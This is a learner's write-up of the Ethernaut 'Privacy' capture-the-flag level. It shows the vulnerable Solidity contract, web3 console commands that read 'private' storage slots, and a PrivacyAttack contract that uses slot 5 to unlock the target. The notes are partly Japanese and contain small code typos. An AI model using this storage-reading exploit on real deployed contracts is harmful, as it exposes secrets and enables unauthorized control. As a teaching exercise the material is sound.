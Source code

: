 ## Ethernaut-solution

### 12. Privacy 

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

- Understanding how storage works

- Understanding how parameter parsing works

- Understanding how casting works

Tips:

Remember that metamask is just a commodity. Use another tool if it is presenting problems. 
Advanced gameplay could involve using remix, or your own web3 provider.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true; //01 :[0]
  uint256 public ID = block.timestamp;//5f669cb3 :[1]
  uint8 private flattening = 10; //10 is 0a :[2] called flattenning
  uint8 private denomination = 255; //255 is ff :[2]
  uint16 private awkwardness = uint16(block.timestamps); //9cb3 :[2] data representation current timestamp coerced to 16bits 
  bytes32[3] private data; //we have three things init of Data Array [3],[4],[5]
//eight bits in one byte 




  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2])); //this mean [5]! this secret key that we need to get in order to unlock this contract 
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

```
>contract.address
'0x1FE73dC35aFc4c0FfCB515858Da6F13439D9647a'
```
```
>contract.abi
(4) [{…}, {…}, {…}, {…}]
0: {inputs: Array(1), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
1: {inputs: Array(0), name: 'ID', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2: {inputs: Array(0), name: 'locked', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(1), name: 'unlock', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 4
[[Prototype]]: Array(0)
```
```
>await contract.locked()
true
```

//current contract is locked. locked is true. 


//gonna iterate for about six times
```solidity
let storage = []

let callbackFNConstructor = (index) => (error, contractData) => {
  storage[index] = ContractData
}
```


//gonna iterate for about six times cuz should be a maximum of six or less variables stored in storage 
```solidity
for(var i = 0; i < 6; i++) { //six loop iteration 
  web3.eth.getStorageAt(contract.address, i, callbackFNConstructor(i))
}
```
```
Promise {<pending>}[[Prototype]]: Promise[[PromiseState]]: "pending"[[PromiseResult]]: undefined
```

//errorでちゃった
```
VM316:4 Uncaught ReferenceError: ContractData is not defined
    at Object.callback (<anonymous>:4:20)
    at a (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:269639)
    at a (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:169902)
    at p.run (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:84233)
    at d (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:83727)
```
//eight bits in one byte 
```
10 is 0a 
255 is ff 
```
```solidity
/PrivacyAttack.sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Privacy.sol";

contract PrivacyAttack {
    Privacy target;

    constructor(address _targetAddress) public {
        target = Privacy(_targetAddress);
    }

    function unlock(bytes32 _slotValue) public {
        bytes16 key = bytes16(_slotValue);
        target.unlock(key);
    }

}
```

Privacy.sol のaddressを確認
```
>contract.address
'0x1FE73dC35aFc4c0FfCB515858Da6F13439D9647a'
```

//PrivacyAttack contract をdeploy using by '0x1FE73dC35aFc4c0FfCB515858Da6F13439D9647a'
```
[block:10918283 txIndex:2]from: 0xF6e...f30F5to: PrivacyAttack.(constructor)value: 0 weidata: 0x608...9647alogs: 0hash: 0x11f...c9d3b
```

//Praivacy.solからunlock用のkeyを抜き出す
```
>await web3.eth.getStorageAt(contract.address, 5, console.log)
'0x30d5f6d82f24a04bddbb8af089e145ace7bbc57351b4878ed559b598c6182467'
```

//unlock with key '0x30d5f6d82f24a04bddbb8af089e145ace7bbc57351b4878ed559b598c6182467'
```
[block:10918324 txIndex:3]from: 0xF6e...f30F5to: PrivacyAttack.unlock(bytes32) 0x5d4...3ee47value: 0 weidata: 0xec9...82467logs: 0hash: 0x039...cc972
```
```
>await contract.locked()
false
```

Nothing in the ethereum blockchain is private. 
The keyword private is merely an artificial construct of the Solidity language. 
Web3s getStorageAt(...) can be used to read anything from storage.
 It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It cant get much more complicated than what was exposed in this level. 
For more, check out this excellent article by "Darius": How to read Ethereum contract storage






